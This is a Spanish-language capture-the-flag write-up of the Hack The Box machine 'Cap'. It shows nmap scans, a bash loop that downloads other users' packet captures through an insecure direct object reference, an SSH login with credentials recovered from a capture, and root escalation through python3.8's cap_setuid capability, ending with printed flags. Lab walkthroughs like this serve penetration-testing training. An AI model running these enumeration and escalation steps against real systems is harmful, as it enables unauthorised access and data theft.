 ```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cap

`Cap` es una máquina Linux de dificultad fácil que ejecuta un servidor HTTP que realiza funciones administrativas, incluida la realización de capturas de red. Los controles inadecuados dan como resultado una referencia directa a objetos insegura (IDOR) que otorga acceso a la captura de otro usuario. La captura contiene credenciales de texto sin formato y se puede utilizar para obtener un punto de apoyo. Luego, se aprovecha una capacidad de Linux para escalar a la raíz.

<figure><img src="../../.gitbook/assets/Cap.png" alt="" width="563"><figcaption></figcaption></figure>

***





```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.245 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 13:28 CET
Initiating SYN Stealth Scan at 13:28
Scanning 10.10.10.245 [65535 ports]
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
Completed SYN Stealth Scan at 13:28, 20.61s elapsed (65535 total ports)
Nmap scan report for 10.10.10.245
Host is up, received user-set (0.14s latency).
Scanned at 2025-01-26 13:28:23 CET for 20s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 20.78 seconds
           Raw packets sent: 65804 (2.895MB) | Rcvd: 65819 (2.633MB)
```





```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.245
	[*] Open ports: 21,22,80

[*] Ports copied to clipboard
```







```bash
❯ nmap -sCV -p21,22,80 10.10.10.245 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 13:29 CET
Nmap scan report for 10.10.10.245
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   101.38 ms 10.10.16.1
2   32.57 ms  10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.94 seconds
```





```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../.gitbook/assets/4134_vmware_uq9TPTUlOo.png" alt=""><figcaption></figcaption></figure>



```bash
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```



<figure><img src="../../.gitbook/assets/imagen (268).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (269).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (270).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/4138_vmware_Nq9zMQJiwy.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (271).png" alt=""><figcaption></figcaption></figure>

5 segundos

<figure><img src="../../.gitbook/assets/imagen (272).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (273).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (274).png" alt=""><figcaption></figcaption></figure>



```bash
#!/bin/bash

# Crear la carpeta si no existe
mkdir -p PCAPS

# Descargar los archivos y guardarlos como $i.pcap
for i in {0..100}; do
    # Intentar descargar el archivo y verificar si existe
    wget -q --show-progress "http://10.10.10.245/download/$i" -O "PCAPS/$i.pcap" 2>/dev/null
    if [ $? -ne 0 ]; then
        # Eliminar el archivo vacío si la descarga falla
        rm -f "PCAPS/$i.pcap"
    fi
done
```



```bash
❯ chmod +x exploit.sh

❯ ./exploit.sh

❯ ls -l PCAPS
.rw-rw-r-- kali kali 9.7 KB Sat May 15 21:53:54 2021  0.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:38:29 2025  1.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:07 2025  2.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:42 2025  3.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:58 2025  4.pcap
```





<figure><img src="../../.gitbook/assets/imagen (275).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (276).png" alt=""><figcaption></figcaption></figure>



```bash
❯ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

...[snip]...

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ cat user.txt
f58f8216595***********************
```





```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep

nathan@cap:~$ which python3.8 | xargs ls -l
-rwxr-xr-x 1 root root 5486384 Jan 27  2021 /usr/bin/python3.8
nathan@cap:~$ which python3.8 | xargs getcap
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```





```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("whoami")
root
0
>>> os.system("/bin/bash")
root@cap:~# cat /root/root.txt
d6f9670f22792e4ad2979e67595cb414
```
